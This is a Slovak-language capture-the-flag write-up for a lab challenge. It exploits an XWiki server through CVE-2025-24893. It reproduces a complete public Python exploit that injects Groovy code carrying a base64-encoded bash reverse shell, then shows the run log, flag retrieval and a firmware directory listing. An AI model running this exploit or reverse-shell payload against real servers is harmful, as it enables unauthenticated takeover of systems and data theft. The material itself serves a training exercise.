


# Zadanie

Hi, emergency troubleshooter,

recent studies suggest that the intense heat and hard labor of solar technicians often trigger strange, vivid dreams about the future of energetics. Over the past few days, technicians have woken up night after night with the same terrifying screams "Look, up in the sky! It’s a bird! It’s a plane! It’s Superman! Let’s roast it anyway!".

Find out what’s going on, we need our technicians to stay sane.

Stay grounded!

- [http://intro.falcon.powergrid.tcc/](http://intro.falcon.powergrid.tcc/)

**Hints**

- Be sure you enter flag for correct chapter.
- In this realm, challenges should be conquered in a precise order, and to triumph over some, you'll need artifacts acquired from others - a unique twist that defies the norms of typical CTF challenges.
- Chapter haiku will lead you.

## Riešenie

Haiku pri tejto úlohe znie

```
2 The Vendor

Bits beneath the shell,
silent thief in circuits' sleep—
firmware leaves the nest.
```

Kliknutím na nadpis haiku som dostal na odkaz `http://thevendor.falcon.powergrid.tcc/`, konkrétne ma presmerovalo na `http://thevendor.falcon.powergrid.tcc/xwiki/bin/view/Main/`, kde je jeden článok, resp. akási dokumentácia, zrejme k tomu, čo som videl v streame z prvej úlohy.



Tu som sa pokúšal o brutforce mena a hesla, ale neúspešne.  Skúsil som ešte, či tu nie sú nejaké iné zraniteľné waypointy.

```
/firmware             (Status: 301) [Size: 169] [--> http://thevendor.falcon.powergrid.tcc/firmware/]
/robots.txt           (Status: 200) [Size: 1842]
```

robots.txt obsahuje excludy na xwiki podstránky pre indexovacie boty, nič zaujímavé na nich som nenašiel a /firmware zobrazuje len toto



Enumeráciou tohto endpointu som nič nezískal.

Napokon som našiel, že xwiki platforma, na ktorej je tento článok, má známu zraniteľnosť `CVE-2025-24893` a dokonca aj známy exploit na [GitHub - dollarboysushil/CVE-2025-24893-XWiki-Unauthenticated-RCE-Exploit-POC: CVE-2025-24893 is a critical unauthenticated remote code execution vulnerability in XWiki (versions &lt; 15.10.11, 16.4.1, 16.5.0RC1) caused by improper handling of Groovy expressions in the SolrSearch macro.](https://github.com/dollarboysushil/CVE-2025-24893-XWiki-Unauthenticated-RCE-Exploit-POC), 

```python
import base64
import urllib.parse
import subprocess
import time
from colorama import init, Fore, Style

# Initialize colorama
init(autoreset=True)


def banner():
    print(Fore.CYAN + r"""    

   _______      ________    ___   ___ ___  _____     ___  _  _   ___   ___ ____  
  / ____\ \    / /  ____|  |__ \ / _ \__ \| ____|   |__ \| || | / _ \ / _ \___ \ 
 | |     \ \  / /| |__ ______ ) | | | ) | | |__ ______ ) | || || (_) | (_) |__) |
 | |      \ \/ / |  __|______/ /| | | |/ /|___ \______/ /|__   _> _ < \__, |__ < 
 | |____   \  /  | |____    / /_| |_| / /_ ___) |    / /_   | || (_) |  / /___) |
  \_____|   \/   |______|  |____|\___/____|____/    |____|  |_| \___/  /_/|____/ 


""" + Fore.YELLOW + "           CVE-2025-24893 - XWiki Groovy RCE Exploit")
    print(Fore.YELLOW + "                   exploit by @dollarboysushil\n")


def send_curl_request(url):
    print(Fore.CYAN + "\n[+] Sending exploit via curl...\n")
    try:
        result = subprocess.run(
            ["curl", "-i", url],
            capture_output=True,
            text=True,
            timeout=10
        )

        if "200 OK" in result.stdout:
            print(Fore.GREEN +
                  "[+] Exploit delivered successfully! Check your listener.")
        else:
            print(
                Fore.RED + "[-] Exploit may not have succeeded (non-200 response).")

    except subprocess.TimeoutExpired:
        print(Fore.RED + "[-] Curl timed out!")
    except Exception as e:
        print(Fore.RED + "[-] Curl request failed:", e)


# Show banner
banner()

# Inputs
url = input(
    Fore.CYAN + "[?] Enter target URL (including http:// or https:// e.g http://10.10.10.18.10:8080): ")
ip = input(Fore.CYAN + "[?] Enter your IP address (for reverse shell): ")
port = input(Fore.CYAN + "[?] Enter the port number: ")

print(Fore.YELLOW + "\n[+] Crafting malicious reverse shell payload...")
time.sleep(1)

# Reverse shell payload
revshell = f"bash -c 'sh -i >& /dev/tcp/{ip}/{port} 0>&1'"
base64_revshell = base64.b64encode(revshell.encode()).decode()

# Groovy payload
payload = (
    f"}}}}}}{{{{async async=false}}}}{{{{groovy}}}}"
    f"\"bash -c {{echo,{base64_revshell}}}|{{base64,-d}}|{{bash,-i}}\".execute()"
    f"{{{{/groovy}}}}{{{{/async}}}}"
)

# Encode payload (preserve some special chars)
encoded_payload = urllib.parse.quote(payload, safe="=,-,")

# Final URL
exploit = f"{url}/xwiki/bin/get/Main/SolrSearch?media=rss&text={encoded_payload}"

# Show example
print(Fore.LIGHTBLACK_EX +
      "\n[+] Sample Format:\n    http://target/xwiki/bin/get/Main/SolrSearch?media=rss&text=<payload>")

# Display exploit
print(Fore.MAGENTA + "\n[+] Final Exploit URL:\n" + Fore.WHITE + exploit)

# Send the curl request
time.sleep(1)
send_curl_request(exploit)

print(Fore.YELLOW +
      "\n[+] Done. Awaiting reverse shell connection on " + ip + ":" + port + " ...\n")
```

ktorý je priamo určený na získanie reverse shellu. Výborne.. Tak nachystám penelope a spúšťam skript.

```
$ python CVE-2025-24893-dbs.py


   _______      ________    ___   ___ ___  _____     ___  _  _   ___   ___ ____
  / ____\ \    / /  ____|  |__ \ / _ \__ \| ____|   |__ \| || | / _ \ / _ \___ \
 | |     \ \  / /| |__ ______ ) | | | ) | | |__ ______ ) | || || (_) | (_) |__) |
 | |      \ \/ / |  __|______/ /| | | |/ /|___ \______/ /|__   _> _ < \__, |__ <
 | |____   \  /  | |____    / /_| |_| / /_ ___) |    / /_   | || (_) |  / /___) |
  \_____|   \/   |______|  |____|\___/____|____/    |____|  |_| \___/  /_/|____/


           CVE-2025-24893 - XWiki Groovy RCE Exploit
                   exploit by @dollarboysushil

[?] Enter target URL (including http:// or https:// e.g http://10.10.10.18.10:8080): http://thevendor.falcon.powergrid.tcc
[?] Enter your IP address (for reverse shell): 10.200.0.44
[?] Enter the port number: 9010

[+] Crafting malicious reverse shell payload...

[+] Sample Format:
    http://target/xwiki/bin/get/Main/SolrSearch?media=rss&text=<payload>

[+] Final Exploit URL:
http://thevendor.falcon.powergrid.tcc/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async=false%7D%7D%7B%7Bgroovy%7D%7D%22bash%20-c%20%7Becho,YmFzaCAtYyAnc2ggLWkgPiYgL2Rldi90Y3AvMTAuMjAwLjAuNDQvOTAxMCAwPiYxJw==%7D%7C%7Bbase64,-d%7D%7C%7Bbash,-i%7D%22.execute%28%29%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D

[+] Sending exploit via curl...

[+] Exploit delivered successfully! Check your listener.

[+] Done. Awaiting reverse shell connection on 10.200.0.44:9010 ...
```

Skript pekne naviguje, zadal som mu, čo pýtal a už mám shell.

Vlajka bola ako v niektorých iných úlohách v env premenných, zadaním `echo $FLAG` ju získam.

```shell
$ echo $FLAG
FLAG{gwNd-0Klr-lsMW-YgZU}
```

Vŕta mi však hlavou ten firmware, tak som ešte vyhľadal priečinky s názvom firmware a našiel som

```shell
vendor@a6f94ff5473c:/opt/vendorwiki$ find / -type d -name "firmware" 2>/dev/null
/sys/class/firmware
/sys/firmware
/usr/lib/firmware
/data/firmware
```

používateľský priečinok sa z týchto javí len jeden

```shell
vendor@a6f94ff5473c:/opt/vendorwiki$ ls -la /data/firmware
total 8436
drwxr-xr-x 2 root root    4096 Oct  3 19:39 .
drwxr-xr-x 1 root root    4096 Oct  3 19:40 ..
-rw-rw-rw- 1 root root    1145 Oct  3 19:39 index.html
-rw-rw-rw- 1 root root 2799338 Oct  3 19:39 prodsite1.lol
-rw-rw-rw- 1 root root 3079673 Oct  3 19:39 prodsite2.lol
-rw-rw-rw- 1 root root 2611306 Oct  3 19:39 prodsite3.lol
-rwxrwxrwx 1 root root   39100 Oct  3 19:39 roostguard-firmware-0.9.bin
-rw-rw-rw- 1 root root   85166 Oct  3 19:39 thevendor-logo.png
```

A tu je nejaký firmware aj iné súbory, exfiltrujem, možno sa zíde. 

## Vlajka

    FLAG{gwNd-0Klr-lsMW-YgZU}
